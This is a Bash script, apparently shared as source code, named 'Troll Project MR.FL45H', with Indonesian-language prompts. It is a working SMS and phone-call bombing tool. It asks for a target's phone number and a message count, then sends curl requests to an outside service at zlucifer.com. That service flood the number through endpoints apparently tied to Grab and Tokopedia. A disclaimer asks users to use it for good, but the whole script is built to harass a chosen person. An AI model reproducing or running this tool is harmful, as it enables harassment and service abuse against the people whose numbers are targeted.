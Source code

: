 #!/bin/bash
#///////////////////////////////////////////////////////////////////////////////
#///////////////////////////////////////////////////////////////////////////////
#////                           MR.FL45H SHADOW                             ////                      ////
#///////////////////////////////////////////////////////////////////////////////
#///////////////////////////////////////////////////////////////////////////////
#PERINGATAN : KESALAHAN ATAU KEJAHATAN ADALAH TANGGUNG JAWAB DARI PEMAKAI
#GUNAKAN TOOLS UNTUK KEBAIKAN JANGAN DISALAH GUNAKAN :)
troll(){
    clear
    sleep 0.03
    echo "         _ "
    sleep 0.03
    echo "        /_)  _.-===-._ "
    sleep 0.03
    echo "       /  .; '_-.'- .'.     _ "
    sleep 0.03
    echo "  __ _/  /.'\ ._  '. , \   (_\ "
    sleep 0.03
    echo " /\_( \  |.'.-._'- .  '|     \ "
    sleep 0.03
    echo " |_)  /  |/'    ''--''\|     _\__ "
    sleep 0.03
    echo " \_)_|  /'  ._.   ._.  '\   / )(_\ "
    sleep 0.03
    echo " )/  (  \_      _      _/   \' (_| "
    sleep 0.03
    echo " /   /    \           /     _) (_/ "
    sleep 0.03
    echo " |   '',_ _'._'---'_.'_ _,.'    | \ "
    sleep 0.03
    echo " \    /  \ \  '''''  / / /     /   \ "
    sleep 0.03
    echo "  \_.'    \ \       / /  |   .' "
    sleep 0.03
    echo "   '--.,   \ \     / /  _;-'' "
    sleep 0.03
    echo "       '|   \ \   / /   | "
    sleep 0.03
    echo "       .;----'''''''----;. "
    sleep 0.03
    echo "      /(                 )\ "
    sleep 0.03
    echo "      \_''-------------''_/ "
    sleep 0.03
    echo "      | '';-----;-----;'' | "
    sleep 0.03
    echo "      | / : \ / : \ / : \ | "
    sleep 0.03
    echo "      |V.','.V.','.V.','.V| "
    sleep 0.03
    echo "      \'./_\.;./_\.;./_\.'/ "
    sleep 0.03
    echo "       ';..___________..;' "
    sleep 0.03
    echo " ============================="
    sleep 2
    echo " ==  Troll Project MR.FL45  =="
    sleep 0.7
    echo " ============================="
}
load(){
    echo -e "\n"
    bar=" >>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>> "
    barlength=${#bar}
    i=0
    while((i<100)); do
        n=$((i*barlength / 100))
        printf "\e[00;32m\r[%-${barlength}s]\e[00m" "${bar:0:n}"
        ((i += RANDOM%5+2))
        sleep 0.2
    done
}
get_sms=$(curl -s http://zlucifer.com/api/hackbae.php?request=sms)
get_call=$(curl -s http://zlucifer.com/api/hackbae.php?request=call)
mulai (){
    echo "Gunakan Troll Project Lagi?"
    echo "y/n?"
    echo
    read lagi
    if [ $lagi = "y" ]; then
            spam
    else
            echo "Terimakasih sudah menggunakan Troll project"
    fi
}
#spam
spam(){
    clear
    troll
    echo
    echo "[1] Spam SMS"
    echo "[2] Spam Telp"
    echo "[3] Close Troll Project"
    echo
    echo "1/2/3?"
    read pilih
    if [ $pilih = "1" ]; then
            echo "Troll Spam SMS"
            #function spam
            echo
            echo "Silahkan masukan nomor telp target"
            echo contoh 0812345678
            read target # masukin no telp
            echo
            echo "Berapa sms yang mau dikirim?"
            read paket
            echo
            echo Apakah nomor $target "dan SMS dikirim "$paket" sudah benar?"
            echo y/n?
            read confirm
            echo
            if [ $confirm = "y" ]; then
                    load
                    clear
                    echo Melakukan spam SMS ke nomor $target
                    echo
                    echo "Jangan close aplikasi sebelum spam selesai"
                    echo "========================================"
                    target_do=$get_sms'/sms.php?nomor='$target'&paket='$paket
                    CURL_RESPONSE=`curl -s -o /dev/null -w "%{http_code}" $target_do`
                    echo " Gunakan tools dengan bijak"
                    echo
                    echo " Love u always "
                    echo " -MR.FL45H "
                    echo "======================================="
            else
                    echo "Kesalahan"
            fi
        mulai
    elif [ $pilih = "2" ]; then
            echo "Troll Spam Call"
            #function spam
            echo
            echo "Silahkan masukan nomor telp target"
            echo contoh 0812345678
            read target # masukin no telp
            echo
            echo "Gunakan API Grab/Toped?"
            echo "[1] GRAB"
            echo "[2] TOPED"
            echo "1/2?"
            read api
            if [ $api = "1" ]; then
                  api_spam="grab"
            else
                  api_spam="toped"
            fi
            echo Apakah nomor $target dan spam menggunakan $api_spam "sudah benar?"
            echo y/n?
            read confirm
            echo
            if [ $confirm = "y" ]; then
                  load
                  clear
                  echo Melakukan spam call ke nomor $target
                  echo
                  echo "Jangan close aplikasi sebelum spam selesai"
                  echo "========================================"
                  cek_target=`curl -s $get_call/call.php?nomor=$target"&method="$api_spam`
                  echo -e $cek_target
                  echo " Gunakan tools dengan bijak"
                  echo
                  echo " Love u always "
                  echo " -MR.FL45H "
                  echo "========================================"
            else
                  echo Kesalahan, silahkan coba lagi
            fi
        mulai
    elif [ $pilih = "3" ]; then
        echo "Terimakasih sudah menggunakan Troll project"
        close
    else
        clear
        echo "Kesalahan"
        mulai
    fi
}
close(){
    exit
}
clear
echo "Loading.."
load
clear
troll
echo Selamat datang kak, Siapa nick kaka? #tulisan keluar
read nick #membaca yang ditulis
clear
troll
echo Selamat datang $nick ":)"
echo
echo "Mulai troll project?"
echo "y/n?"
read mulai
if [ $mulai = "y" ]; then
      spam
else
      close
fi
